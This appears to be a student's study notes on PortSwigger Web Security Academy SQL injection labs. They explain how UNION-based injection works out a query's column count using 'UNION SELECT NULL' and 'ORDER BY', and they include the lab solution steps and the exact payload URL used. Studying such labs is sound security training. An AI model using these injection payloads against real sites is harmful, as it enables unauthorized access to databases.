 


Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

**Step #1: Determine # of columns**

SQLi attack (way #1):  Union operator SQL(Microsoft):
https://learn.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver16

select ? from table1 UNION select NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns


SQLi attack (way #2):  Order by operator SQL(Microsoft):
https://learn.microsoft.com/en-us/sql/t-sql/queries/select-order-by-clause-transact-sql?view=sql-server-ver16

select a, b from table1 order by 3 (using this we can determin no.of columns using in the sql query)


```

 ####  Solution

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the `category` parameter, giving it the value `'+UNION+SELECT+NULL--`. Observe that an error occurs.
3. Modify the `category` parameter to add an additional column containing a null value:
    
    `'+UNION+SELECT+NULL,NULL--` or ( '+UNION+SELECT+1,2--)
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.
```


Query used to solve this lab was:
```
https://0aed007503ed3a1fa9f7494e002b00e3.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,NULL,NULL-- 

```




# 5)Lab: SQL injection UNION attack, finding a column containing text(https://portswigger.net/web-security/sql-injection/union-attacks)

Lab video: https://www.youtube.com/watch?v=SGBTC5D7DTs1
Notes: https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/sql-injection/lab-04/notes.txt
**Step #2: Determine the data type of the columns**
